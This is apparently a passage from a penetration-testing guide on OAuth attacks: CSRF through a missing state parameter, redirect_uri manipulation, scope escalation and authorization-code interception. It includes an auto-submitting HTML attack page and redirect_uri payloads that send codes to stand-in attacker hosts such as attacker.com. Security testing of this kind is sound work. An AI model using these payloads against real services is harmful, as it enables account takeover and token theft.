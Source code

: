     2. **Missing state parameter exploitation (CSRF)**:
       - Step 1: Analyze the OAuth flow for presence of state parameter
       - Step 2: If state parameter is missing, prepare a CSRF attack
       - Step 3: Create a malicious page that initiates OAuth flow with your client_id
       - Step 4: Set redirect_uri to the legitimate callback URL
       - Step 5: Trick victim into visiting the malicious page
       - Step 6: When victim is authenticated, their account becomes linked to your external account
       - Example HTML for attack page:
       ```html
       <html>
         <body onload="document.forms[0].submit()">
           <form action="https://oauth-provider.com/authorize" method="GET">
             <input type="hidden" name="client_id" value="CLIENT_ID" />
             <input type="hidden" name="redirect_uri" value="https://legitimate-app.com/callback" />
             <input type="hidden" name="response_type" value="code" />
             <input type="hidden" name="scope" value="email profile" />
           </form>
         </body>
       </html>
       ```

    3. **Redirect URI manipulation**:
       - Step 1: Identify the redirect_uri parameter in authorization requests
       - Step 2: Test for validation flaws by modifying the parameter
       - Step 3: Try subdirectory manipulations (path traversal)
       - Step 4: Test subdomain variations if allowed
       - Step 5: Test for open redirects on legitimate domains
       - Step 6: Exploit to redirect authorization codes/tokens to attacker-controlled endpoints
       - Example manipulations:
         - Original: `redirect_uri=https://legitimate-app.com/oauth/callback`
         - Path traversal: `redirect_uri=https://legitimate-app.com/oauth/callback/../../../attacker/controlled/path`
         - Subdomain: `redirect_uri=https://attacker-controlled.legitimate-app.com`
         - Extra parameters: `redirect_uri=https://legitimate-app.com/oauth/callback?next=https://attacker.com`
         - Different port: `redirect_uri=https://legitimate-app.com:8080/callback`

    4. **Flawed scope validation**:
       - Step 1: Analyze the scopes requested during OAuth flow
       - Step 2: Capture an access token with limited scope
       - Step 3: Test if resource server properly validates scopes
       - Step 4: Attempt to access endpoints requiring higher privileges
       - Step 5: Modify scope parameter in token requests
       - Step 6: Check if access is granted despite insufficient scope
       - Example: Change API request from `/userinfo?scope=email` to `/userinfo?scope=email+profile+admin`

  - **Authorization code attacks**
    1. **Code interception**:
       - Step 1: Identify the OAuth authorization flow
       - Step 2: Look for flaws in redirect_uri validation
       - Step 3: Create a malicious redirect_uri pointing to attacker-controlled domain
       - Step 4: Initiate OAuth flow with the malicious redirect_uri
       - Step 5: Intercept the authorization code
       - Step 6: Quickly use the code with the legitimate redirect_uri
       - Step 7: Complete authentication as the victim
       - Example: Change `redirect_uri=https://legitimate-app.com/callback` to `redirect_uri=https://attacker.com/logging`
